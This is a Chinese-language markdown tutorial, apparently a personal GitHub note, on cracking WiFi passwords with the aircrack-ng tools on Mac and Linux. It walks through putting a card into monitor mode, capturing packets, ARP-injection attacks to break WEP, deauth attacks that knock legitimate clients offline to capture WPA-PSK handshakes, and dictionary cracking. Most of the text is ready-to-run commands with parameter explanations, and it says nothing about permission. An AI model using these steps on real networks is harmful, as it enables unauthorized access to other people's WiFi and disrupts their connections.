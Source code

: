 #Mac下的WIFI破解
以前破wifi用的是CDLinux下的工具，最近换了mac研究了一下mac下的wifi破解工具，速度还行。不过现在到处都是免费wifi，还有好用的万能钥匙，这些技术用的都比较少了，写下来备用吧。


##一、wep破解##
###1、载入无线网卡###
```
ifconfig -a查看网卡
ifconfig wlan0 up加载网卡
iwconfig只查看无线网卡
```
###2、激活无线网卡只monitor监听模式###
```
airmon-ng start 上面查看的网卡名

monitor mode enabled on mon0便是已启动监听模式，监听模式下适配器名称变更为mon0。
```
###3、探测无线网络，抓取无线数据包###
```
airodump-ng mon0 //mon0为之前已经载入并激活监听模式的无线网卡

airodump-ng --ivs –w longas -c 6 wlan0 //抓取数据包
参数解释：
--ivs 这里的设置是通过设置过滤，不再将所有无线数据保存，而只是保存可用于破解的IVS数据报文，这样可以有效地缩减保存的数据包大小；
-c 这里我们设置目标AP的工作频道，通过刚才的观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，如下图10所示我这里就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longase.ivs，而是longas-01.ivs。
```

###4、对目标AP使用ArpRequest注入攻击，加速数据包的获取###
```
aireplay-ng -3 -b AP的mac -h 客户端的mac mon0 
参数解释：
-3 指采用ARPRequesr注入攻击模式；
-b 后跟AP的MAC地址，这里就是前面我们探测到的SSID为TPLINK的AP的MAC；
-h 后跟客户端的MAC地址，也就是我们前面探测到的有效无线客户端的MAC；
最后跟上无线网卡的名称，这里就是mon0啦。
在等待片刻之后，一旦成功截获到ARP请求报文，我们将会看到如下图13所示的大量ARP报文快速交互的情况出现。
此时回到airodump-ng 会看到packets栏的数字在飞速递增。
```

###5、打开aircrack-ng，开始破解WEP###
在抓取的无线数据报文达到了一定数量后，一般都是指IVs值达到2万以上时，就可以开始破解，若不能成功就等待数据报文的继续抓取然后多试几次。注意，此处不需要将进行注入攻击的Shell关闭，而是另外开一个Shell进行同步破解。输入命令如下：
```
aircrack-ng 捕获的ivs文件
```
##二、wap-psk破解##
###1、升级Aircrack-ng###
最好对airodump-ng的OUI库进行升级，先进入到Aircrack-ng的安装目录下，然后输入命令如下：
```
airodump-ng-oui-update
```
###2、载入并激活无线网卡至monitor即监听模式###
载入无线网卡的顺序及命令部分，依次输入下述命令
```
startx            进入到图形界面
ifconfig –a       查看无线网卡状态
ifconfig  wlan0  up     载入无线网卡驱动
airmon-ng  start  wlan0  激活网卡到monitor模式
```
###3、探测无线网络，抓取无线数据包###
```
airodump-ng -c 6 –w longas mon0
参数解释：
-c 这里我们设置目标AP的工作频道，通过观察，我们要进行攻击测试的无线路由器工作频道为6；
-w 后跟要保存的文件名，这里w就是“write写”的意思，所以输入自己希望保持的文件名，这里我就写为longas。那么，小黑们一定要注意的是：这里我们虽然设置保存的文件名是longas，但是生成的文件却不是longas.cap，而是longas-01.cap。
mon0 为之前已经载入并激活监听模式的无线网卡。
```
###4、进行Deauth攻击加速破解过程###
和破解WEP时不同，这里为了获得破解所需的WPA-PSK握手验证的整个完整数据包，无线黑客们将会发送一种称之为“Deauth”的数据包来将已经连接至无线路由器的合法无线客户端强制断开，此时，客户端就会自动重新连接无线路由器，黑客们也就有机会捕获到包含WPA-PSK握手验证的完整数据包了。此处具体输入命令如下：
```
aireplay-ng -0 1 –a AP的mac -c 客户端的mac wlan0 
参数解释：
-0 采用deauth攻击模式，后面跟上攻击次数，这里我设置为1，大家可以根据实际情况设置为10不等；
-a 后跟AP的MAC地址；
-c 后跟客户端的MAC地址；
```
###5、开始破解WPA-PSK###
在成功获取到无线WPA-PSK验证数据报文后，就可以开始破解，输入命令如下：
```
aircrack-ng -w dic 捕获的cap文件 
-w 后跟预先制作的字典，这里是BT4下默认携带的字典。
```

###命令合集###
```
aircrack-ng
主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解
airmon-ng
用于改变无线网卡工作模式，以便其他工具的顺利使用
airodump-ng
用于捕获802.11数据报文，以便于aircrack-ng破解
aireplay-ng
在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量
airserv-ng
可以将无线网卡连接至某一特定端口，为攻击时灵活调用做准备
airolib-ng
进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件
airdecap-ng
用于解开处于加密状态的数据包
tools
其他用于辅助的工具，如airdriver-ng、packetforge-ng等
```
---
#破解WIFI密码总结#
这里我总结一下常用的流程，其实只有3个步骤。
###获取搜索到的wifi###
```
airport -s
SSID 是 wifi名称，RSSI 是信号强度，CHANNEL 是信道。
```
###开始监听###
```
sudo airport en0 sniff 1
en0是网卡   1是要抓包的信道
抓包.cap文件默认保存在/tmp  -w可以改变保存路径
```
###解析###
```
aircrack-ng -w 1.txt 1.cap
1.txt是字典暴  1.cap是抓包文件
可以看到cap包的内容，Encryption中（0 handshake）是抓包失败，（1 handshake）则是抓包成功。
记住成功的行数，Index number of target network ?后面输入行数，回车。
```
